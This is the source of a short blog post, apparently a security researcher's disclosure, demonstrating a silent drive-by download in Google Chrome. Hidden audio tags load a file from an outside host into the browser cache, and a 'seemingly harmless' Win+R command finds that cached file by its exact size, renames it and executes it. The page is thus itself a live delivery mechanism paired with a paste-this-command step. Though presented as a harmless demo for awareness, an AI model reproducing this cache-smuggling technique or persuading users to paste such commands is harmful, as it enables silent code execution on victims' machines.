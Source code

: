 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome -
  and will launch a demo PoC if you dare to paste this seemingly harmless command in a Win+R prompt:

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 
 * The PoC is a harmless demo
 * Chiptune in PoC is (c) 1999 WAVE
 * Reported to Google in November 2015 - status: Wontfix

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
